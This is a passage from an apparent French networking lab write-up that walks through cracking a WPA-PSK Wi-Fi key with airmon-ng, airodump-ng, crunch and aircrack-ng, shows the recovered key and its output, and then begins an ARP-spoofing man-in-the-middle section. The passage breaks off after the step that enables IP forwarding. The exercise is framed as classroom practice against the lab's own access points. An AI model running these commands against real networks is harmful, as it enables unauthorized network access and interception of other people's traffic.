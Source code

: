 * Démarrer la carte Wifi en mode de surveillance (monitor mode) :
```
airmon-ng start wlx40a5ef059e47
airmon-ng start wlan0mon
```
Après activation du mode de surveillance, la carte Wifi se nomme `wlan0mon`.

* Lancer une écoute de tous les paquets Wifi qui circulent afin de déterminer les paramètres du réseau Wifi à attaquer :
```
airodump-ng wlan0mon
```
Récupérer les informations suivantes :  
&ensp; &rarr; BSSID	- 44:AD:D9:5F:87:02  
&ensp; &rarr; Canal	- 3  
&ensp; &rarr; SSID	- kracotte03

* Cibler la recherche vers le point d'accès pour capturer les VI générés par le PA :
```
airodump-ng -c 3 --bssid 44:AD:D9:5F:87:02 -w psk wlan0mon
```
Il est nécessaire de capturer les VI issus d'un handshake (émis lors de la connexion d'un utilisateur au PA).  
Pour cela, des cartes Raspberry Pi présentes dans la salle de TP se connectent aux différents réseaux Wifi WPA.  
Ici, les paquets récupérés sont stockés dans des fichiers `psk*`.

* Créer un dictionnaire de toutes les combinaisons décimales possibles sur 8 bits :
```
crunch 8 8 0123456789 -o dictionnaire
```

* Cassage de la PSK :
```
aircrack-ng -w dictionnaire -b 44:AD:D9:5F:87:02 psk*.cap
```

```
KEY FOUND! [ 90122222 ]
Master Key     : 2D 1E 30 8D AA 30 91 7A 5D AB B5 80 02 FB 16 3F 
                 9B DB 91 AC A5 76 4A 33 31 8B D3 7B AC 5A DB A7 

Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

EAPOL HMAC     : E6 17 FE C7 E3 14 F0 B9 68 99 97 86 07 41 DA E8
```

## Attaque du type "homme du milieu" par usurpation ARP

Sur la machine qui effectue l'attaque :

* Activer le routage IPv4 :
```
sysctl -w net.ipv4.ip_forward=1
```
